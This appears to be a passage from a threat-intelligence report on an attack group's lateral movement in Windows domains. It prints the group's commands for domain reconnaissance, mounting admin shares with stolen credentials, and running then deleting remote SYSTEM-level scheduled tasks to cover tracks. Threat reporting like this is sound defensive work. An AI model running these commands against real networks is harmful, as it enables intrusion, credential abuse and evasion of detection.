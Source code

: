 net group "domain admins" /dom
net user %USER% /dom
net group "domain computers" /dom | findstr %VALUABLE_USER%
ping %REMOTE_HOST% -4




1234

net group "domain admins" /domnet user %USER% /domnet group "domain computers" /dom | findstr %VALUABLE_USER%ping %REMOTE_HOST% -4




After identifying potential targets, the group moves laterally by locally mounting network shares using compromised domain admin credentials:


PowerShell


net use \\%REMOTE_HOST%\c$ "%PASSWORD%" /user:%USER%
net use \\%IP_ADDRESS%\c$ "%PASSWORD%" /user:%USER%




12

net use \\%REMOTE_HOST%\c$ "%PASSWORD%" /user:%USER%net use \\%IP_ADDRESS%\c$ "%PASSWORD%" /user:%USER%




The attackers take care to rotate the credentials used over time; the same credentials are unlikely to be used for a long time.
After copying a script, a scheduled task is created, executed and immediately deleted along with the network share, all cyclically for each targeted host:


PowerShell


schtasks /s %REMOTE_HOST% /tn %TASK_NAME% /u %DOMAIN%\%USER% /p %PASSWORD% /create /ru system /sc DAILY /tr "%COMMAND%" /f
schtasks /run /s %REMOTE_HOST% /tn %TASK_NAME% /u %USER% /p "%PASSWORD%" /i
schtasks /delete /s %REMOTE_HOST% /tn %TASK_NAME%  /u %USER% /p "%PASSWORD%" /f
net use \\%IP_ADDRESS%\c$ /del /y




1234

schtasks /s %REMOTE_HOST% /tn %TASK_NAME% /u %DOMAIN%\%USER% /p %PASSWORD% /create /ru system /sc DAILY /tr "%COMMAND%" /fschtasks /run /s %REMOTE_HOST% /tn %TASK_NAME% /u %USER% /p "%PASSWORD%" /ischtasks /delete /s %REMOTE_HOST% /tn %TASK_NAME%  /u %USER% /p "%PASSWORD%" /fnet use \\%IP_ADDRESS%\c$ /del /y




The scheduled task can typically contain a single discovery command, a binary call or a PS1 or BAT script that takes care of performing the collection activity.
During lateral movement, the output of single-command scheduled tasks is saved in a specific file so that it can be captured by the attacker who mounts the remote drive as a local share:
